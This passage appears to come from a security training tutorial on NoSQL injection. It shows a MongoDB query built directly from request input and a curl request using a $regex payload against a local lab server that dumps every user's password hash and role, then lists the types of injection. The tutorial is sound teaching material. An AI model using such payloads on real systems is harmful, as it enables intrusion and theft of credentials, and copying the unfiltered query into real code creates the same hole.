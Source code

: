 ```shell

```

We posted the `/api/v1/getUser` endpoint with the body `{"username": "gerald1992"}`, and the server used that to generate the full query `db.users.find({username: "gerald1992"})` and returned the results to us.

The problem is that the server blindly uses whatever we give it as the username query without any filters or checks. Below is an example of code that is vulnerable to `NoSQL injection`:

```javascript
...
.find({username: req.body['username']});
...

```

A simple example of exploiting this injection vulnerability is using the `$regex` operator described in the previous section to coerce the server into returning the information of all users (whose usernames match `/.*/`), like this:

```shell
curl -s -X POST http://127.0.0.1:3000/api/v1/getUser -H 'Content-Type: application/json' -d '{"username": {"$regex": ".*"}}' | jq

[
  {
    "_id": "63667302b7417b0045435139",
    "username": "bmdyy",
    "password": "f25a2fc72690b780b2a14e140ef6a9e0",
    "role": 0,
    "email": "[email protected]"
  },
  {
    "_id": "63667326b7417b004543513a",
    "username": "gerald1992",
    "password": "0f626d75b12f77ede3822843320ed7eb",
    "role": 1,
    "email": "[email protected]"
  }
]

```

* * *

## Types of NoSQL Injection

If you are familiar with SQL injection, then you will already be familiar with the various classes of injections that we may encounter:

- `In-Band`: When the attacker can use the same channel of communication to exploit a NoSQL injection and receive the results. The scenario from above is an example of this.
- `Blind`: This is when the attacker does not receive any direct results from the NoSQL injection, but they can infer results based on how the server responds.
- `Boolean`: Boolean-based is a subclass of blind injections, which is a technique where attackers can force the server to evaluate a query and return one result or the other if it is True or False.
- `Time-Based`: Time-based is the other subclass of blind injections, which is when attackers make the server wait for a specific amount of time before responding, usually to indicate if the query is evaluated as True or False.
